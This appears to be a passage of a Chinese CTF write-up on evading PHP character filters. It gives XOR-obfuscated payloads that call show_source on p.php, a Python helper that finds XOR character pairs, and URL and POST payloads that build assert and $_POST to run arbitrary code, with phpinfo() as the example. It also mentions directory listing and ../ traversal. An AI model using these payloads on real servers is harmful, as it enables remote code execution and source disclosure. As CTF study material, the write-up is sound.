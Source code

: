 

![image-20210808134559028](images/3.png)

读取到了当前同一个目录下的p.php

```
mess=?><?=$_="3317!315288"^"@[^@~@^@@[]";$_(("0"^"@").(".").("030"^"@[@"));
```

这串字符串的意思是show_source(p.php)

不过是需要异或运算后

这里有个异或运算脚本

 

```
valid = "1234567890!@$%^*(){}[];\'\",.<>/?-=_`~ "

answer = "show_source"

tmp1, tmp2 = '', ''
for c in answer:
  for i in valid:
    for j in valid:
      if (ord(i) ^ ord(j) == ord(c)):
        tmp1 += i
        tmp2 += j
        break
    else:
      continue
    break
print(tmp1, tmp2)
```

除此之外也可以用上面的方法

Url:

```
http://127.0.0.1/test/p.php?shell=$_=(''^'').(''^'').(''^'');$__='_'.(' '^']').('%2F'^'`').(''^']').('	'^']');$___=$$__;$_($___[_]);
```

 

post数据:

```
mess=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);&_=phpinfo();
```

当然我肯定先用glob()看看当前目录有什么东西

![image-20210808140427356](images/4.png)

穿越到上级目录就用../
